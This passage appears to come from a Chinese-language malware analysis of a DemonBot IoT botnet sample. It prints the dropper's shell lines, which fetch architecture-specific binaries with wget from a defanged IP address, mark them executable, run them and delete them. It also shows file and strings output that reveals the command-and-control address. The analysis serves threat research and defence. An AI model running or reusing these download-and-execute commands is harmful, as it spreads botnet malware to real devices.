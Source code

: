 ```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.m68k; chmod +x YSDKOP.m68k; ./YSDKOP.m68k; rm -rf YSDKOP.m68k
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.sparc; chmod +x YSDKOP.sparc; ./YSDKOP.sparc; rm -rf YSDKOP.sparc
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm4; chmod +x YSDKOP.arm4; ./YSDKOP.arm4; rm -rf YSDKOP.arm4
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm5; chmod +x YSDKOP.arm5; ./YSDKOP.arm5; rm -rf YSDKOP.arm5
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.arm7; chmod +x YSDKOP.arm7; ./YSDKOP.arm7; rm -rf YSDKOP.arm7
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget http://185.244.25[.]153/YSDKOP.ppc440fp; chmod +x YSDKOP.ppc440fp; ./YSDKOP.ppc440fp; rm -rf YSDKOP.ppc440fp*
```

*不同的二进制文件对应于多个平台架构的相同源代码的交叉编译版本:*

```
*$ file *
YSDKOP.arm4:  ELF 32-bit LSB executable, ARM, version 1 (ARM), statically linked, with debug_info, not stripped
YSDKOP.arm5:  ELF 32-bit LSB executable, ARM, version 1 (ARM), statically linked, with debug_info, not stripped
YSDKOP.arm6:  ELF 32-bit LSB executable, ARM, EABI4 version 1 (SYSV), statically linked, with debug_info, not stripped
YSDKOP.arm7:  ELF 32-bit LSB executable, ARM, EABI4 version 1 (SYSV), statically linked, with debug_info, not stripped
YSDKOP.i586:  ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
YSDKOP.i686:  ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
YSDKOP.m68k:  ELF 32-bit MSB executable, Motorola m68k, 68020, version 1 (SYSV), statically linked, not stripped
YSDKOP.mips:  ELF 32-bit MSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, not stripped
YSDKOP.mpsl:  ELF 32-bit LSB executable, MIPS, MIPS-I version 1 (SYSV), statically linked, not stripped
YSDKOP.ppc:   ELF 32-bit MSB executable, PowerPC or cisco 4500, version 1 (SYSV), statically linked, not stripped
YSDKOP.sh4:   ELF 32-bit LSB executable, Renesas SH, version 1 (SYSV), statically linked, not stripped
YSDKOP.sparc: ELF 32-bit MSB executable, SPARC, version 1 (SYSV), statically linked, with debug_info, not stripped
YSDKOP.x86:   ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, not stripped*
```

*快速浏览一下 i586 二进制文件的字符串就会发现典型的 DemonBot 标记:*

```
*$ strings YSDKOP.i586
…
185.244.25[.]153:420
8.8.8.8
/proc/net/route
        00000000
(null)
/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ
/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID
/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38
/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93
/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A/x38/xFJ/x93/xID/x9A
```
